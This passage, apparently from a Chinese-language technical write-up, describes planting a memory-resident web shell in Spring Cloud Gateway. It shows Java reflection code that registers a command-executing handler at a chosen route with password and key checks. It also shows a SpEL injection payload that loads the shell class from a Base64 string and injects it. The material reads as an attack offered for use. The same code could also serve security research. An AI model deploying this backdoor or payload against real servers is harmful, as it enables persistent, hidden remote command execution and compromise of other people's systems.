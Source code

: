 ```java
    try {
      md5 = md5(pass + key);
      Method registerHandlerMethod = obj.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
      registerHandlerMethod.setAccessible(true);
      Method executeCommand = GMemShell.class.getDeclaredMethod("cmd", ServerWebExchange.class);
      RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).build();
      registerHandlerMethod.invoke(obj, new GMemShell(), executeCommand, requestMappingInfo);
      msg = "ok";
    } catch (Exception e) {
      e.printStackTrace();
      msg = "error";
    }
    return msg;
  }
  // ...
}
```

同样地，SpEL 表达式也需要稍微修改下，添加接收密码和密钥参数

```java
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('<Base64字符串>'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping, '</路由>','<密码>','<密钥>')}
```
![Spring-Cloud-Gateway-MemShell-13](assets/Spring-Cloud-Gateway-MemShell-13.png)
